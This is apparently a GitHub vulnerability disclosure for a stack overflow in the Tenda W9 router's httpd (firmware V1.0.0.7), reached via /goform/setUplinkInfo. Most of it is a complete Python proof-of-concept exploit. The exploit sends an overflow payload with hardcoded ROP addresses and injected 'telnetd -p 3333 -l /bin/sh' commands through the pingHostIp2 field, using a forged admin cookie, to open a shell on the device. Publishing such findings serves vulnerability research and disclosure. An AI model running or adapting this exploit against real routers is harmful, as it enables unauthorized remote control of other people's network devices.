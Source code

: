 # Tenda W9 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetUplinkInfo` function, which can be accessed via the URL `/goform/setUplinkInfo`

![1](./1.jpg)





When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)
        #print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x11111111)+p32(0x77df8000+0x060320)+p32(0x4B43A0)
    payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x77df7000+0x7FFF0)+p32(0x77df7000+0x054C18)+p32(0x77df7000+0x080118)*4
    payload+='telnetd -p 3333 -l /bin/sh      '+p32(0x77df7000+0x60320)*2+p32(0x22222222)*3+p32(0x77df7000+0x19204)+p32(0x22222222)*6+'telnetd -p 3333 -l /bin/sh'   
    ip = '192.168.0.254'  
    # 构造http数据包
    s='1'
    pdata = {

        'upLinkEn'  :   'true' ,
        'pingHostIp2'  :   payload
        }

    header = {
        'Cookie'        : 'w9v1_user=admin',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/setUplinkInfo', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)



```





![poc1](./poc1.jpg)

![poc2](./poc2.jpg)

